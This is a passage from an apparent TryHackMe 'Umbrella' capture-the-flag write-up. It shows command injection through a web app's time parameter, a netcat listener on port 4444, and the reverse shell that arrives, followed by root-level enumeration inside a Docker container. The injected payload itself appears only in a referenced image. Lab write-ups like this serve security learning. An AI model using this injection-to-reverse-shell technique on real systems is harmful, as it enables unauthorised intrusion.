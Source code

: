 Lets use it through web login in time parameter ->
![Image](Pasted%20image%2020240203225707.png)

here the time is added into the claire-r slot so I have to input the payload in time parameter like this and start the listener at port 4444.
![Image](Pasted%20image%2020240203225927.png)

```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Umbrella]
└─$ rlwrap nc -lvnp 4444                   
listening on [any] 4444 ...
connect to [10.17.1.0] from (UNKNOWN) [10.10.146.217] 58766
SHELL=/bin/bash script -q /dev/null
root@de0610f51845:/usr/src/app# whoami
whoami
root
root@de0610f51845:/usr/src/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@de0610f51845:/usr/src/app# ls -al
ls -al
total 92
drwxr-xr-x  1 root root  4096 Dec 22  2022 .
drwxr-xr-x  1 root root  4096 Dec 22  2022 ..
-rw-rw-r--  1 root root  3237 Dec 22  2022 app.js
drwxr-xr-x 87 root root  4096 Dec 22  2022 node_modules
-rw-rw-r--  1 root root 63965 Dec 22  2022 package-lock.json
-rw-rw-r--  1 root root   385 Dec 22  2022 package.json
drwxr-xr-x  3 root root  4096 Dec 22  2022 public
drwxr-xr-x  2 root root  4096 Dec 22  2022 views
root@de0610f51845:/usr/src/app# cd ../
cd ../
root@de0610f51845:/usr/src# ls -al
ls -al
total 12
drwxr-xr-x 1 root root 4096 Dec 22  2022 .
drwxr-xr-x 1 root root 4096 Dec 19  2022 ..
drwxr-xr-x 1 root root 4096 Dec 22  2022 app
root@de0610f51845:/usr/src# cd /
cd /
root@de0610f51845:/# ls -al
ls -al
total 76
drwxr-xr-x   1 root root 4096 Dec 22  2022 .
drwxr-xr-x   1 root root 4096 Dec 22  2022 ..
-rwxr-xr-x   1 root root    0 Dec 22  2022 .dockerenv
drwxr-xr-x   2 root root 4096 Dec 19  2022 bin
drwxr-xr-x   2 root root 4096 Dec  9  2022 boot
drwxr-xr-x   5 root root  340 Feb  3 17:20 dev
drwxr-xr-x   1 root root 4096 Dec 22  2022 etc
drwxr-xr-x   1 root root 4096 Dec 21  2022 home
drwxr-xr-x   1 root root 4096 Dec 19  2022 lib
drwxr-xr-x   2 root root 4096 Dec 19  2022 lib64
drwxrw-rw-   2 1001 1001 4096 Dec 22  2022 logs
drwxr-xr-x   2 root root 4096 Dec 19  2022 media
drwxr-xr-x   2 root root 4096 Dec 19  2022 mnt
drwxr-xr-x   1 root root 4096 Dec 21  2022 opt
dr-xr-xr-x 180 root root    0 Feb  3 17:20 proc
drwx------   1 root root 4096 Dec 21  2022 root
drwxr-xr-x   3 root root 4096 Dec 19  2022 run
drwxr-xr-x   2 root root 4096 Dec 19  2022 sbin
drwxr-xr-x   2 root root 4096 Dec 19  2022 srv
dr-xr-xr-x  13 root root    0 Feb  3 17:20 sys
```